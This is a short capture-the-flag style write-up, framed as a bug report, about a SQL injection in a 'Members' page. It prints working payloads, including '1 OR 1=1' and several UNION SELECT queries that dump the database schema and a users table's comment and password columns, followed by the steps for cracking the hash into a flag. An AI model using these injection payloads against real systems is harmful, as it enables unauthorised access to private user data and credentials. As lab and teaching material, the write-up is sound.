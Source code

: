 # Bug Report - SQL Injection in Members

##  Bug description

An SQL Injection is a security breach that occurs when a web page has an input field of for example a user id or a username and the hacker inputs a SQL petition that runs without protection in the database, giving access to properties that should be private.

## How did I find it?

While looking for vulnerabilities, I tried giving thr input "1 OR 1=1" and when I got the result of all the info from all the users I knew there was a possible SQL injection there.

## Steps to replicate

1. First we are going to see all the columns of all the tables of the database:
	- 1 UNION SELECT 1,(SELECT GROUP_CONCAT(table_name,column_name) FROM information_schema.columns WHERE table_schema=database())

2. Then we can start checking field that where not accesible before, the first one interesting is Commentaire where we can see the next step to follow:
	- 1 UNION SELECT 1,Commentaire FROM users	--->	(Decrypt this password -> then lower all the char. Sh256 on it and it's good !)

3. Get the encrypted password from the countersign column:
	- 1 UNION SELECT 1,countersign FROM users

4. Decrypt the password using the MD5 algorithm, lowering all chars and applying SH256 on it to get the flag with this command:
	- echo -n fortytwo | sha256sum

https://owasp.org/www-community/attacks/SQL_Injection